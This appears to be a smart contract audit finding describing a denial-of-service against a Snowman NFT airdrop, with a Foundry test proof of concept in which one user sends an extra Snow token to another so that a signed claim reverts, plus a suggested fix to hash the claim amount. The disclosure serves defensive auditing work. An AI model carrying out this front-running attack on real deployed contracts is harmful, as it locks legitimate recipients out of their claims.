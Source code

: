 ## Risk

**Likelihood**:

* The attacker must purchase Snow and forcefully send it to the receiver in a front-running attack, so the likelihood is Medium

**Impact**:

* The impact is High as it could lock out the receiver from claiming forever

## Proof of Concept

The attack consists on Bob sending an extra Snow token to Alice before Satoshi claims the NFT on behalf of Alice. To showcase the risk, the extra Snow is earned for free by Bob.

```Solidity
     function testDoSClaimSnowman() public {
        assert(snow.balanceOf(alice) == 1);

        // Get alice's digest while the amount is still 1
        bytes32 alDigest = airdrop.getMessageHash(alice);
        // alice signs a message
        (uint8 alV, bytes32 alR, bytes32 alS) = vm.sign(alKey, alDigest);

        vm.startPrank(bob);
        vm.warp(block.timestamp + 1 weeks);

        snow.earnSnow();

        assert(snow.balanceOf(bob) == 2);
        snow.transfer(alice, 1);

        // Alice claim test
        assert(snow.balanceOf(alice) == 2);

        vm.startPrank(alice);
        snow.approve(address(airdrop), 1);

        // satoshi calls claims on behalf of alice using her signed message
        vm.startPrank(satoshi);
        vm.expectRevert();

        airdrop.claimSnowman(alice, AL_PROOF, alV, alR, alS);
     }
```

## Recommended Mitigation

Include the amount to be claimed in both `getMessageHash` and `claimSnowman` instead of reading it from the Snow contract. Showing only the new code in the section below

```Python
function claimSnowman(address receiver, uint256 amount, bytes32[] calldata merkleProof, uint8 v, bytes32 r, bytes32 s)
        external
        nonReentrant
    {
        ...

        bytes32 leaf = keccak256(bytes.concat(keccak256(abi.encode(receiver, amount))));

        if (!MerkleProof.verify(merkleProof, i_merkleRoot, leaf)) {
            revert SA__InvalidProof();
        }
```
